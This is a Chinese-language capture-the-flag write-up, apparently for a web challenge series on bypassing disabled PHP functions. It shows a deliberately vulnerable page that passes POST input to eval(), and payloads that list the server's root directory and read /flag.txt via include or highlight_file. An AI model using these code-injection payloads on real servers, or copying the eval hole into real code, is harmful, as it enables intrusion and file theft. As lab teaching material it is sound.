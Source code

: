 ```php
<?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```
尝试后发现print_r被禁用了，这次使用var_dump打印，按照上题的思路，查看根目录
payload: c=var_dump(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637894193264-98070937-927a-40ef-8c66-610fd4c3cb1f.png#clientId=uf61a1eb9-8a40-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=u634a8b9b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=543&originWidth=959&originalType=binary&ratio=1&rotation=0&showTitle=false&size=69436&status=done&style=none&taskId=u21050625-fb2c-456e-8e2a-3ecb309a04b&title=&width=618)
于是最终payload：c=highlight_file('/flag.txt');
## web68（突破禁用函数）
```php
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 19
```
代码看不到了，看报错是因为highlight_file()被禁用了，一样，看一眼根目录，找到flag.txt
payload：c=var_dump(scandir('/'));
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637894386021-ca8d69b4-6cc8-4d85-902f-a02477ddbafd.png#clientId=uf61a1eb9-8a40-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=450&id=u19690b8e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=670&originWidth=969&originalType=binary&ratio=1&rotation=0&showTitle=false&size=74679&status=done&style=none&taskId=u3dfc4f6a-8f4a-44e8-a489-10440facf71&title=&width=651)
这次使用include包含flag.txt
payload：c=include('/flag.txt');
还可以用require函数，文档是这样说的：
> **include 和 require 语句用于在执行流中插入写在其他文件中的有用的代码。**
> **include 和 require 除了处理错误的方式不同之外，在其他方面都是相同的：**
> - **require 生成一个致命错误（E_COMPILE_ERROR），在错误发生后脚本会停止执行。**
> - **include 生成一个警告（E_WARNING），在错误发生后脚本会继续执行。**

## web69（突破禁用函数）
打开一看，还是highlight_file()函数被禁用，var_dump也被禁用了，这次使用var_export()
以下是文档说明
> **var_export() 函数用于输出或返回一个变量，以字符串形式表示。**
> **var_export() 函数返回关于传递给该函数的变量的结构信息，它和 var_dump() 类似，不同的是其返回的是一个合法的 PHP 代码。**
> **PHP 版本要求: PHP 4 >= 4.2.0, PHP 5, PHP 7**

payload：c=var_export(scandir('/'));打印根目录文件
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637895933556-8c24e369-4599-4a9d-81bb-1d80eaa94e87.png#clientId=u4e321334-5d46-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=350&id=u27c83bc7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=549&originWidth=1015&originalType=binary&ratio=1&rotation=0&showTitle=false&size=57096&status=done&style=none&taskId=u5f368a1b-c21a-4a03-ae53-d7c5db5b038&title=&width=647)
最终payload：c=include('/flag.txt');
## web70（突破禁用函数）
```php

Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14

Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15

Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 21
你要上天吗？
```
没什么难度，和上一题一样的操作
最终payload：c=include('/flag.txt');
## web71（突破禁用函数）
```php
<?php

error_reporting(0);
```